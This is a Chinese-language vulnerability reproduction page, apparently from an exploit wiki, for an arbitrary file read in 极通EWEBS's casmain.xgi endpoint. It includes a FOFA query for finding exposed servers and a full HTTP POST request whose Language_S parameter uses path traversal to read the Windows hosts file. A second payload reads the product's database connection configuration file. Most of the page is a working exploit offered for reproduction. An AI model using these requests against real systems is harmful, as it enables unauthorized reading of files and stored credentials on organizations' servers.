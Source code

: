 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>极通EWEBS</a-checkbox></br>

## FOFA

<a-checkbox checked>app="新软科技-极通EWEBS"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210615125923544.png)



漏洞请求包为

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![img](../../../.vuepress/public/img/image-20210615130137932.png)



可以配合 testweb.php 信息泄露读取敏感信息

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

